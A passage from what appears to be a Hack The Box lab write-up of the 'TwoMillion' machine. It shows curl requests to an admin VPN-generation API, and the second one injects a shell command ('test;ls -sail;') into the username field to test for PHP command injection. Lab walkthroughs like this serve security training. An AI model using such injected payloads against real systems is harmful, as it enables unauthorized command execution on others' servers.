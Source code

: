## Exploitation 

Now that we are admin user, we can try generating the vpn configuration for admin user

```yaml
curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=cpm0c8lt568v2sv5rh65laks9e" --header "Content-Type: application/json" --data '{"username":"test"}' 
```
 ![Alt text](/assets/img/htb/tm_21.png)

After executing the command, a VPN configuration file is generated for the user "test" and displayed. If the VPN generation process utilizes PHP's exec or system functions without adequate filtering, there's a risk of injecting malicious code into the username field, potentially leading to remote system command execution.

```yaml
curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=cpm0c8lt568v2sv5rh65laks9e" --header "Content-Type: application/json" --data '{"username":"test;ls -sail;"}'

```
 ![Alt text](/assets/img/htb/tm_22.png)
